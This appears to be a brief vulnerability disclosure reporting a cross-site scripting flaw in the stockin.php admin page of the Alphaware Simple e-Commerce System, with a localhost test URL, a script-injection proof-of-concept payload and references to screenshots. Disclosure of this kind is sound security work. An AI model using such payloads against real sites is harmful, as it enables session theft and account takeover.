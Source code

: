 ## Alphaware e-Commerce system has XSS vulnerability

## XSS

Enter the administrator background page

http://127.0.0.1/cve/admin/stockin.php?id=3

There is an xss vulnerability in the stockin.php file

Enter XSS payload

```
'"><script>alert(/xss/)</script>
```

![1](1.png)

The page successfully pops up XSS, the vulnerability exists



## Vulnerable code

![2](2.png)



## link

https://www.sourcecodester.com/php/11676/alphaware-simple-e-commerce-system.html